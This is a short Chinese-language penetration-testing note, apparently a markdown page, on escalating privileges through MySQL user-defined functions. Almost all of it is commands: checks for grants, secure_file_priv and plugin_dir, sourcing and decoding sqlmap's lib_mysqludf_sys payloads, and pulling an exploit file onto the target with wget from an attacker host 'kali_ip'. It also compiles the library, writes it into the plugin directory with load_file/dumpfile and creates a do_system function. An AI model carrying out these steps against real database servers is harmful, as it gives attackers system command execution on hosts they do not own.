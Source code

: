 不同系统下的udf文件：
https://www.cnblogs.com/PaineLei/p/14065515.html

参考文献：https://blog.csdn.net/Bossfrank/article/details/131424479

提权条件
```
1、mysql用户对mysql库拥有create、insert、delete等权限（最好是root用户）
	SHOW GRANTS;
	
2、需要securefile_priv 为空：
	show variables like '%secure_file_priv%';
	或
	grep secure_file_priv /etc/my.cnf
		值为 /var/lib/mysql-files/ ，这意味着只允许在该目录下进行文件操作。
		值为 空字符串（''），则不限制文件操作的范围
		值为 NULL （/_nʌll/），则禁止这些操作，无法进行任何与文件相关的操作。

3、mysql需要有插件目录
	show variables like '%plugin_dir%';
	
4、编译命令可用
	which gcc
```
准备利⽤⽂件获取

方法1：
```
searchsploit mysql udf
根据数据库版本选择利用
	- MariaDB 5.5基于MySQL 5.5
	- MariaDB 10.0相当于MySQL 5.6
	- MariaDB 10.1相当于MySQL 5.7
	- 从MariaDB 10.2开始，MariaDB与MySQL有了显著的分歧，因此很难找到一个直接的对应版本
```
方法2：
```
kali自带利用文件路径：
	/usr/share/sqlmap/data/udf/mysql/linux/32/lib_mysqludf_sys.so_
	/usr/share/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
	/usr/share/sqlmap/data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
	/usr/share/sqlmap/data/udf/mysql/windows/64/lib_mysqludf_sys.dll_

解码（kali中为了防止被误杀，所以做了编码处理）
	python3 /usr/share/sqlmap/extra/cloak/cloak.py -i lib_mysqludf_sys.so_ -o lib_mysqludf_sys.so
```
将文件传输到目标机器
```
kali : sudo python3 -m http.server 80
target : wget http://kali_ip/1518.c
```
编译⽣成共享库⽂件
```
cd /tmp
gcc -g -c 1518.c -fPIC -o 1518.o
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```
利用过程
```
#上传UDF的动态链接库文件
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/mysql插件目录/1518.so';
#创建自定义函数
create function do_system returns integer soname '1518.so';

```